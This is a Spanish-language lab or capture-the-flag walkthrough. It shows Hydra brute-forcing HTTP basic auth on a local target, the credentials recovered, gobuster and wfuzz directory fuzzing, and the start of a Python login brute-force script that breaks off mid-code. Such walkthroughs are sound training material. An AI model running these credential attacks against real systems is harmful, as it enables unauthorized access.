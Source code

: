 ```bash
git clone https://github.com/danielmiessler/SecLists.git
```

```bash
hydra -C RUTA_AL_DICCIONARIO/ftp-betterdefaultpasslist.txt http-get://172.17.0.2/
```

Resultado:

```
[80][http-get] host: 172.17.0.2   login: httpadmin   password: fhttpadmin
```

Credenciales válidas:

```
httpadmin:fhttpadmin
```

Nos logueamos. Nos lleva a un `index.html`, sin nada interesante. Toca fuzzing con las credenciales:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,txt,bak,zip -U httpadmin -P fhttpadmin
```

```
/index.html           (Status: 200) [Size: 10701]
/login.php            (Status: 200) [Size: 2798]
```

También con wfuzz:

```bash
wfuzz -c --hh=272 \
  -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -z list,php,txt,bak,old,zip, \
  -H "Authorization: Basic aHR0cGFkbWluOmZodHRwYWRtaW4=" \
  -u http://172.17.0.2/FUZZ.FUZ2Z
```

---

## Ataque Fuerza Bruta en login.php

Capturamos la petición POST:

```
POST /login.php HTTP/1.1
Authorization: Basic aHR0cGFkbWluOmZodHRwYWRtaW4=
...
username=admin&password=password
```

Creamos un script en Python:

```python
import requests
import sys
import os

url = "http://bypass403.pw/login.php"
headers = {
    "Authorization": "Basic aHR0cGFkbWluOmZodHRwYWRtaW4=",
    "Content-Type": "application/x-www-form-urlencoded"
}

def load_words(filepath):
    if not os.path.isfile(filepath):
        print(f"❌ Archivo no encontrado: {filepath}")
        sys.exit(1)
```